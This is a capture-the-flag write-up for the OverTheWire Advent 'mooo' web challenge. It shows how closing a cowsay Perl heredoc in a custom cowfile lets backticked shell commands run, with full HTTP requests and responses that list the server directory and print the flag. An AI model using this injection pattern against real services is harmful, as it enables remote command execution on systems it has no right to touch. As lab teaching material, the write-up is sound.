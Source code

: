 # OverTheWire Advent Bonanza – mooo

* **Category:** web
* **Points:** 98

## Challenge

> 'Moo may represent an idea, but only the cow knows.' - Mason Cooley
settings
> 
> Service: http://3.93.128.89:1204
> 
> Author: semchapeu

## Solution

The website allows to use [cowsay 3.03+dfsg2-4](https://launchpad.net/ubuntu/bionic/amd64/cowsay/3.03+dfsg2-4) command to print messages.

There is a functionality to create your own cowfile: `http://3.93.128.89:1204/cow_designer`.

Cowfiles are like [the following](https://github.com/bkendzior/cowfiles/blob/master/bearface.cow).

```perl
##
## acsii picture from http://www.ascii-art.de/ascii/ab/bear.txt
##
$eye = chop($eyes);
$the_cow = <<EOC;
 $thoughts
  $thoughts
     .--.              .--.
    : (\\ ". _......_ ." /) :
     '.    `        `    .'
      /'   _        _   `\\
     /     $eye}      {$eye     \\
    |       /      \\       |
    |     /'        `\\     |
     \\   | .  .==.  . |   /
      '._ \\.' \\__/ './ _.'
      /  ``'._-''-_.'``  \\
EOC
```

Considering that you can write your own, probably that one is represented following this format and the string you pass to the cow designer functionality is appended after `$the_cow` variable.

You can try to modify the content of that file with a code like the following.

```perl
EOCA$eyes=`ls`;print "$eyes";
```

The `A` letter is a placeholder that with a proxy must be changed to ``\n (`0x0a`). Furthermore, due to a restriction in the functionality, you can only use variables already defined into the Perl script, like `$eyes`.

You can use the following HTTP request to enumerate the directory content.

```
POST /cow_designer HTTP/1.1
Host: 3.93.128.89:1204
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Origin: http://3.93.128.89:1204
Connection: close
Referer: http://3.93.128.89:1204/cow_designer
Cookie: session=.eJyrVkouLS7Jz41Pzi9XslJKyClOUNJRSq1MLUbwSvLz0ktTYfxaAMTyEP8.Xeeu7A.HifJJrvsmNcHgfIYXZNFlPfocqs
Upgrade-Insecure-Requests: 1

message=message&custom_cow=EOC
$eyes=`ls`;print "$eyes";&eyes=ee&tongue=tt

HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 04 Dec 2019 18:52:30 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Vary: Cookie
Set-Cookie: session=eyJjdXN0b21fY293IjoiRU9DXG4kZXllcz1gbHNgO3ByaW50IFwiJGV5ZXNcIjsiLCJleWVzIjoiZWUiLCJ0b25ndWUiOiJ0dCJ9.XegAbg.EMqHGbwtgY3BiQ9ulqMh74tdZ-Y; HttpOnly; Path=/
Content-Length: 720

<!DOCTYPE html>
<html>
<head>
    <link href="/static/style.css" rel="stylesheet" type="text/css" />
</head>

<body>
    <h1>Mooo!</h1>
    <form action="/cow_designer" method="POST">
        Message:
        <input type="text" name="message" value="message"><br> 
        Cow:<br>
        <textarea rows="8" cols="40" name="custom_cow">
EOC
$eyes=`ls`;print &#34;$eyes&#34;;
        </textarea><br>
        Eyes:
        <input type="text" name="eyes" value="ee"><br>
        Tongue:
        <input type="text" name="tongue" value="tt"><br> 
        <input type="submit" value="say">
    </form>
    
    
    <div><pre>flag
server.py
templates
 _________
&lt; message &gt;
 ---------
</pre></div>
    
</body>

</html>
```

And you can use the following request HTTP to print the flag file.

```
POST /cow_designer HTTP/1.1
Host: 3.93.128.89:1204
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://3.93.128.89:1204
Connection: close
Referer: http://3.93.128.89:1204/cow_designer
Cookie: session=.eJyrVkouLS7Jz41Pzi9XslJKyClOUNJRSq1MLUbwSvLz0ktTYfxaAMTyEP8.Xeeu7A.HifJJrvsmNcHgfIYXZNFlPfocqs
Upgrade-Insecure-Requests: 1

message=message&custom_cow=EOC
$eyes=`cat flag`;print "$eyes";&eyes=ee&tongue=tt

HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 04 Dec 2019 18:53:16 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Vary: Cookie
Set-Cookie: session=eyJjdXN0b21fY293IjoiRU9DXG4kZXllcz1gY2F0IGZsYWdgO3ByaW50IFwiJGV5ZXNcIjsiLCJleWVzIjoiZWUiLCJ0b25ndWUiOiJ0dCJ9.XegAnA.U8mwtSnPeAaqSKFzmuJqy-962Xo; HttpOnly; Path=/
Content-Length: 733

<!DOCTYPE html>
<html>
<head>
    <link href="/static/style.css" rel="stylesheet" type="text/css" />
</head>

<body>
    <h1>Mooo!</h1>
    <form action="/cow_designer" method="POST">
        Message:
        <input type="text" name="message" value="message"><br> 
        Cow:<br>
        <textarea rows="8" cols="40" name="custom_cow">
EOC
$eyes=`cat flag`;print &#34;$eyes&#34;;
        </textarea><br>
        Eyes:
        <input type="text" name="eyes" value="ee"><br>
        Tongue:
        <input type="text" name="tongue" value="tt"><br> 
        <input type="submit" value="say">
    </form>
    
    
    <div><pre>AOTW{th3_p3rl_c0w_s4ys_M0oO0o0O} _________
&lt; message &gt;
 ---------
</pre></div>
    
</body>

</html>
```

The flag is the following.

```
AOTW{th3_p3rl_c0w_s4ys_M0oO0o0O}
```